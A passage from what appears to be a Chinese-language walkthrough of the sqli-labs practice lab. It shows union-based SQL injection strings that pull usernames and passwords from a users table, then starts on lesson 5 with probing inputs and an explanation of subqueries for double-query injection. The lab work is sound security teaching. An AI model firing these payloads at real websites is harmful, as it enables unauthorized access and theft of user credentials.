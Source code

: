 

**爆数据**

```sql
?id=-1") union select 1,group_concat(id,username,password) ,3 from users--+
```

![image-20201106211943328](sqli-labs1-20/image-20201106211943328.png)

或者 查询数据

```sql
?id=-1") union select 1,username,password from users where id=3--+

or

?id=3")--+
```

![image-20201106212009822](sqli-labs1-20/image-20201106212009822.png)





## less-5

```sql
?id=1正常
?id=1'错误
?id=1'--+正常但是注入不出库名
```

根据提示可知该使用双查询注入

**子查询**

在说双查询之前，先介绍一下子查询。

查询：任何SQL语句都是查询。但此术语一般指SELECT语句。
SQL还允许创建子查询（subquery），即嵌套在其他查询中的查询。
